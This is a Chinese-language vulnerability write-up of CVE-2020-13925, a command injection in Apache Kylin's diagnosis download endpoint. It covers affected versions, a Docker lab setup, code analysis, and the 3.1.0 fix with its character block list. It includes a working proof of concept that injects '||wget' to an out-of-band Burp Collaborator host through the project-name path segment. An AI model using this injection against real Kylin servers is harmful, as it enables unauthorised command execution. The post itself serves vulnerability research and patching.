


Title: CVE-2020-13925 Apache Kylin命令注入漏洞
Date: 2020-07-22 10:20
Category: 漏洞实践
Tags: Java,命令注入,漏洞
Slug: 
Authors: bit4woo
Summary: 

# CVE-2020-13925 Apache Kylin命令注入漏洞

## 漏洞简介


### 简要说明


Apache Kylin 是一个大数据平台


### 影响版本


- 2.3.0, 2.3.1, 2.3.2,
- 2.4.0, 2.4.1,
- 2.5.0, 2.5.1, 2.5.2,
- 2.6.0, 2.6.1, 2.6.2, 2.6.3, 2.6.4, 2.6.5, 2.6.6,
- 3.0.0-alpha, 3.0.0-alpha2,3.0.0-beta, 3.0.0, 3.0.1 3.0.2

Users of all previous versions after 2.3 **should upgrade to 3.1.0**.  即修复版本为: 3.1.0
### 漏洞利用条件


- 需要有管理员账号登陆 WEB 系统，docker部署的初始用户名和密码是 `ADMIN/KYLIN`。
## 漏洞复现
### 环境搭建


参考 [https://github.com/apache/kylin](https://github.com/apache/kylin) 使用docker进行环境部署，修改其中的版本为3.0.2（存在漏洞的版本）。可以去除 【-m 8G \ 】它的作用是分配内存的大小。


然后访问 [http://host:7070/kylin/login](http://127.0.0.1:7070/kylin/login) 初始用户名和密码是 `ADMIN/KYLIN`。
```bash
docker pull apachekylin/apache-kylin-standalone:3.0.2

docker run -d \
    -m 8G \
    -p 7070:7070 \
    -p 8088:8088 \
    -p 50070:50070 \
    -p 8032:8032 \
    -p 8042:8042 \
    -p 16010:16010 \
    apachekylin/apache-kylin-standalone:3.0.2
    
docker run -d \
    -p 7070:7070 \
    -p 8088:8088 \
    -p 50070:50070 \
    -p 8032:8032 \
    -p 8042:8042 \
    -p 16010:16010 \
    apachekylin/apache-kylin-standalone:3.0.2
```


### 漏洞验证PoC


```python
原始请求：
http://host:port/kylin/api/diag/project/learn_kylin/download
        
PoC请求，GET方法：
http://host:port/kylin/api/diag/project/%7c%7cwget%20h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net%7c%7c/download

即将项目名称“learn_kylin”替换为如下payload：
||wget h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net||

并将||和空格进行URL编码
```


### 复现步骤

登录系统后，访问 System-->Configuration-->Diagnosis。触发下载诊断信息的请求

```
http://host:port/kylin/api/diag/project/learn_kylin/download
```


在burp的repeater中修改原始请求，即将项目名称“learn_kylin”替换为如上payload访问即可。

```
||wget h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net||
URL编码后：
%7c%7cwget%20h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net%7c%7c
```


## 漏洞分析


### 定位漏洞代码
漏洞所在代码模块是server-base，可以在GitHub中看到

[https://github.com/apache/kylin/tree/kylin-3.0.2/server-base](https://github.com/apache/kylin/tree/kylin-3.0.2/server-base)

漏洞URL请求所对应的代码位置：
[https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/controller/DiagnosisController.java](https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/controller/DiagnosisController.java)



[https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/service/DiagnosisService.java](https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/service/DiagnosisService.java)

[https://github.com/apache/kylin/blob/kylin-3.0.2/core-common/src/main/java/org/apache/kylin/common/util/CliCommandExecutor.java](https://github.com/apache/kylin/blob/kylin-3.0.2/core-common/src/main/java/org/apache/kylin/common/util/CliCommandExecutor.java)



正常请求，服务器上将会执行的命令如下

```bash
命令格式：
diag.sh 项目名称 输出文件

命令实例：
/home/admin/apache-kylin-3.0.2-bin-hbase1x/bin/diag.sh learn_kylin /home/admin/apache-kylin-3.0.2-bin-hbase1x/bin/../tomcat/temp/diag_project6766592240383832860

当将使用输入的payload替换项目名称“learn_kylin”后，得到的命令是：

/home/admin/apache-kylin-3.0.2-bin-hbase1x/bin/diag.sh ||wget h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net|| /home/admin/apache-kylin-3.0.2-bin-hbase1x/bin/../tomcat/temp/diag_project6766592240383832860

||是“或”的意思，即在command A || comand B中，如果命令A执行失败，执行命令B。

这里单独执行diag.sh是会失败的，所以我们的payload得到了执行。
```


### 修复方案

对比3.0.2和3.1.0两个版本的代码：
src\main\java\org\apache\kylin\rest\controller\DiagnosisController.java


过滤代码在kylin-kylin-3.1.0\kylin-kylin-3.1.0\core-common\src\main\java\org\apache\kylin\common\util\CliCommandExecutor.java中，采用了黑名单方式过滤。
```java

    public static final String COMMAND_BLOCK_LIST = "[ &`>|{}()$;\\#~!+*\\\\]+";
    public static final String COMMAND_WHITE_LIST = "[^\\w%,@/:=?.\"\\[\\]]";
    public static final String HIVE_BLOCK_LIST = "[ <>()$;\\-#!+*\"'/=%@]+";


    /**
     * <pre>
     * Check parameter for preventing command injection, replace illegal character into empty character.
     *
     * Note:
     * 1. Whitespace is also refused because parameter is a single word, should not contains it
     * 2. Some character may be illegal but still be accepted because commandParameter maybe a URI/path expression,
     *     you may check "Character part" in https://docs.oracle.com/javase/8/docs/api/java/net/URI.html,
     *     here is the character which is not banned.
     *
     *     1. dot .
     *     2. slash /
     *     3. colon :
     *     4. equal =
     *     5. ?
     *     6. @
     *     7. bracket []
     *     8. comma ,
     *     9. %
     * </pre>
     */
    public static String checkParameter(String commandParameter) {
        return checkParameter(commandParameter, COMMAND_BLOCK_LIST);
    }

    public static String checkParameterWhiteList(String commandParameter) {
        return checkParameter(commandParameter, COMMAND_WHITE_LIST);
    }

    public static String checkHiveProperty(String hiveProperty) {
        return checkParameter(hiveProperty, HIVE_BLOCK_LIST);
    }

    private static String checkParameter(String commandParameter, String rex) {
        String repaired = commandParameter.replaceAll(rex, "");
        if (repaired.length() != commandParameter.length()) {
            logger.warn("Detected illegal character in command {} by {} , replace it to {}.", commandParameter, rex, repaired);
        }
        return repaired;
    }
```


命令注入常用的连接符 ||  && 都被过滤了，这里甚至过滤了空格，找不到绕过的方法。
## 参考链接
[https://mp.weixin.qq.com/s/LdEgENX2_b8tb12n4H9KJQ](https://mp.weixin.qq.com/s/LdEgENX2_b8tb12n4H9KJQ)


